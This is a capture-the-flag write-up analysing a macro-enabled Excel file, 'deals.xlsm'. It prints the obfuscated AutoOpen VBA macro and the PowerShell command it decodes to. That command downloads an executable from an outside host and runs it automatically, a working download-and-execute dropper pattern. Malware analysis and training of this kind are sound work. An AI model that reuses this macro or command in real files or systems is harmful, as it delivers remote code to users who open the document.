





# Fruit Deals

> I found a excel sheet with some great deals thanks to some random guy on the internet! Who doesn't trust random people off the internet, especially from email
> 
> The flag is the file name that was attempted to be downloaded, wrapped in utflag{} Note: the file imitates malicious behavior. its not malicious, but it will be flagged by AV. you probably shouldn't just run it though.
> 
> By Samintell (@samintell on discord)

Solution:

We are given with an excel file named `deals.xlsm`

Let's check using `oleid`...



Aight, obviously it has malicious macros, let's check those using `olevba`







So it has two macros:
1. FillWithRandomBase64
2. AutoOpen

We are more interested with `AutoOpen` since it obviously executes once the file is opened (though given the security *enhancements* macros are disabled by default)

```vb
Sub AutoOpen()
Dim Retval
Dim f As String
Dim t53df028c67b2f07f1069866e345c8b85, qe32cd94f940ea527cf84654613d4fb5d, e5b138e644d624905ca8d47c3b8a2cf41, tfd753b886f3bd1f6da1a84488dee93f9, z92ea38976d53e8b557cd5bbc2cd3e0f8, xc6fd40b407cb3aac0d068f54af14362e As String
xc6fd40b407cb3aac0d068f54af14362e = "$OrA, "
If Sheets("Sheet2").Range("M62").Value = "Iuzaz/iA" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + "$jri);"
End If
If Sheets("Sheet2").Range("G80").Value = "bAcDPl8D" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + "Invok"
End If
e5b138e644d624905ca8d47c3b8a2cf41 = " = '"
If Sheets("Sheet2").Range("P31").Value = "aI3bH4Rd" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "http"
End If
If Sheets("Sheet2").Range("B50").Value = "4L3bnaGQ" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "://f"
End If
If Sheets("Sheet2").Range("B32").Value = "QyycTMPU" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + "e-Ite"
End If
If Sheets("Sheet2").Range("K47").Value = "0kIbOvsu" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + "m $jri"
End If
If Sheets("Sheet2").Range("B45").Value = "/hRdSmbG" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + ";brea"
End If
If Sheets("Sheet2").Range("D27").Value = "y9hFUyA8" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "ruit"
End If
If Sheets("Sheet2").Range("A91").Value = "De5234dF" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + ".ret3"
End If
If Sheets("Sheet2").Range("I35").Value = "DP7jRT2v" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + ".gan"
End If
If Sheets("Sheet2").Range("W48").Value = "/O/w/o57" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + "k;} c"
End If
If Sheets("Sheet2").Range("R18").Value = "FOtBe4id" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + "atch "
End If
If Sheets("Sheet2").Range("W6").Value = "9Vo7IQ+/" Then
xc6fd40b407cb3aac0d068f54af14362e = xc6fd40b407cb3aac0d068f54af14362e + "{}"""
End If
If Sheets("Sheet2").Range("U24").Value = "hmDEjcAE" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "g/ma"
End If
If Sheets("Sheet2").Range("C96").Value = "1eDPj4Rc" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "lwar"
End If
If Sheets("Sheet2").Range("B93").Value = "A72nfg/f" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + ".rds8"
End If
If Sheets("Sheet2").Range("E90").Value = "HP5LRFms" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "e';$"
End If
tfd753b886f3bd1f6da1a84488dee93f9 = "akrz"
If Sheets("Sheet2").Range("G39").Value = "MZZ/er++" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "f3zsd"
End If
If Sheets("Sheet2").Range("B93").Value = "ZX42cd+3" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "2832"
End If
If Sheets("Sheet2").Range("I15").Value = "e9x9ME+E" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "0918"
End If
If Sheets("Sheet2").Range("T46").Value = "7b69F2SI" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "2afd"
End If
If Sheets("Sheet2").Range("N25").Value = "Ga/NUmJu" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "CNTA"
End If
If Sheets("Sheet2").Range("N26").Value = "C1hrOgDr" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + " = '"
End If
If Sheets("Sheet2").Range("C58").Value = "PoX7qGEp" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "banA"
End If
If Sheets("Sheet2").Range("B53").Value = "see2d/f" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "Fl0dd"
End If
If Sheets("Sheet2").Range("Q2").Value = "VKVTo5f+" Then
e5b138e644d624905ca8d47c3b8a2cf41 = e5b138e644d624905ca8d47c3b8a2cf41 + "NA-H"
End If
t53df028c67b2f07f1069866e345c8b85 = "p"
If Sheets("Sheet2").Range("L84").Value = "GSPMnc83" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + "oWe"
End If
If Sheets("Sheet2").Range("H35").Value = "aCxE//3x" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + "ACew"
End If
If Sheets("Sheet2").Range("R95").Value = "uIDW54Re" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + "Rs"
End If
If Sheets("Sheet2").Range("A24").Value = "PKRtszin" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + "HELL"
End If
If Sheets("Sheet2").Range("G33").Value = "ccEsz3te" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + "L3c33"
End If
If Sheets("Sheet2").Range("P31").Value = "aI3bH4Rd" Then
t53df028c67b2f07f1069866e345c8b85 = t53df028c67b2f07f1069866e345c8b85 + " -c"
End If

If Sheets("Sheet2").Range("Z49").Value = "oKnlcgpo" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "4';$"
End If
If Sheets("Sheet2").Range("F57").Value = "JoTVytPM" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "jri="
End If
If Sheets("Sheet2").Range("M37").Value = "y7MxjsAO" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "$env:"
End If
If Sheets("Sheet2").Range("E20").Value = "ap0EvV5r" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "publ"
End If
z92ea38976d53e8b557cd5bbc2cd3e0f8 = "\'+$"
If Sheets("Sheet2").Range("D11").Value = "Q/GXajeM" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "CNTA"
End If
If Sheets("Sheet2").Range("B45").Value = "/hRdSmbG" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "+'.ex"
End If
If Sheets("Sheet2").Range("D85").Value = "y4/6D38p" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "e';tr"
End If
If Sheets("Sheet2").Range("P2").Value = "E45tTsBe" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "4d2dx"
End If
If Sheets("Sheet2").Range("O72").Value = "lD3Ob4eQ" Then
tfd753b886f3bd1f6da1a84488dee93f9 = tfd753b886f3bd1f6da1a84488dee93f9 + "ic+'"
End If
qe32cd94f940ea527cf84654613d4fb5d = "omm"
If Sheets("Sheet2").Range("P24").Value = "d/v8oiH9" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "and"
End If
If Sheets("Sheet2").Range("V22").Value = "dI6oBK/K" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + " """
End If
If Sheets("Sheet2").Range("G1").Value = "zJ1AdN0x" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "$oa"
End If
If Sheets("Sheet2").Range("Y93").Value = "E/5234dF" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "e$3fn"
End If
If Sheets("Sheet2").Range("A12").Value = "X42fc3/=" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "av3ei"
End If
If Sheets("Sheet2").Range("F57").Value = "JoTVytPM" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "K ="
End If
If Sheets("Sheet2").Range("L99").Value = "t8PygQka" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + " ne"
End If
If Sheets("Sheet2").Range("X31").Value = "gGJBD5tp" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "w-o"
End If
If Sheets("Sheet2").Range("C42").Value = "Dq7Pu9Tm" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "bjec"
End If
If Sheets("Sheet2").Range("D22").Value = "X42/=rrE" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "aoX3&i"
End If
If Sheets("Sheet2").Range("T34").Value = "9u2uF9nM" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "t Ne"
End If
If Sheets("Sheet2").Range("G5").Value = "cp+qRR+N" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "t.We"
End If
If Sheets("Sheet2").Range("O17").Value = "Q8z4cV/f" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "bCli"
End If
If Sheets("Sheet2").Range("Y50").Value = "OML7UOYq" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "ent;"
End If
If Sheets("Sheet2").Range("P41").Value = "bG9LxJvN" Then
qe32cd94f940ea527cf84654613d4fb5d = qe32cd94f940ea527cf84654613d4fb5d + "$OrA"
End If
If Sheets("Sheet2").Range("L58").Value = "qK02fT5b" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "y{$oa"
End If
If Sheets("Sheet2").Range("P47").Value = "hXelsG2H" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "K.Dow"
End If
If Sheets("Sheet2").Range("A2").Value = "RcPl3722" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "Ry.is"
End If
If Sheets("Sheet2").Range("G64").Value = "Kvap5Ma0" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "nload"
End If
If Sheets("Sheet2").Range("H76").Value = "OjgR3YGk" Then
z92ea38976d53e8b557cd5bbc2cd3e0f8 = z92ea38976d53e8b557cd5bbc2cd3e0f8 + "File("
End If
f = t53df028c67b2f07f1069866e345c8b85 + qe32cd94f940ea527cf84654613d4fb5d + e5b138e644d624905ca8d47c3b8a2cf41 + tfd753b886f3bd1f6da1a84488dee93f9 + z92ea38976d53e8b557cd5bbc2cd3e0f8 + xc6fd40b407cb3aac0d068f54af14362e
Retval = Shell(f, 0)
Dim URL As String
URL = "https://www.youtube.com/watch?v=mYiBdMnIT88"
ActiveWorkbook.FollowHyperlink URL
End Sub
```

So depending on the value of a specific cell, it will append as part of the PowerShell command. The full command is then called using `Retval = Shell(f, 0)`

Since it depends on the cell value, and to make thing easier, I opened the file using Excel 2007. Then I simply replaced the `Retval = Shell(f, 0)` with `Debug.Print f` so it will print the full command instead of executing it.



so the full command is

```powershell
poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}"
```

`$CNTA = 'banANA-Hakrz09182afd4';` here is used as the filename which will be appended with `.exe` at `$jri=$env:public+'\'+$CNTA+'.exe';`

Flag: `utflag{banANA-Hakrz09182afd4.exe}`